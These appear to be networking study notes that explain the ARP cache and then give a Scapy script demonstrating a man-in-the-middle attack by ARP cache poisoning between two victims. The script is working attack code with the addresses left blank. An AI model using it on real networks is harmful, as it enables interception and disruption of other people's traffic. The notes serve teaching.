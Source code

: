 ARP Cache - is a collection of Layer 2 to Layer 3 address mappings discovered utilizing the ARP request/response process. When a host needs to send a packet both the L2 and L3 addresses are needed. The host will look in this table to determine if it already knows both the L2 and L3 addresses. If the target is not in the table then a ARP request is initiated. The ARP cache can be populated statically but mostly its done dynamically. This cache can be exploited by attackers with the aim to poison the cache with incorrect information to either perform a DoS or MitM.
```
arp -a
ip neighbor
```

Demonstrate man-in-the-middle (MitM) with ARP


DEMO ARP MitM attack
```
my_mac = ""             #Insert Your MAC address
victim1_mac = ""        #Insert victim1 MAC address
victim1_ip = ""         #Insert victim1 IP address
victim2_mac = ""        #Insert victim2 MAC address
victim2_ip = ""         #Insert victim2 IP addres

# -- ARP to Poison Victim 1 to pretend to be Victim 2 --
a = Ether()
a.src= my_mac
a.dst= victim1_mac
a.type= 0x0806

b = ARP()
b.op= 2
b.hwsrc= my_mac
b.psrc= victim2_ip    #Who you are pretending to be
b.hwdst= victim1_mac  #Who's ARP cache you are trying to poison
b.pdst= victim1_ip    #Who's ARP cache you are trying to poison

# -- ARP to Poison Victim 2 to pretend to be Victim 1 --
c = Ether()
c.src= my_mac
c.dst= victim2_mac
c.type= 0x0806

d = ARP()
d.op= 2
d.hwsrc= my_mac
d.psrc= victim1_ip    #Who you are pretending to be
d.hwdst= victim2_mac  #Who's ARP cache you are trying to poison
d.pdst= victim2_ip    #Who's ARP cache you are trying to poison

a.show()
b.show()
c.show()
d.show()

sendp(a/b); sendp(c/d)
```
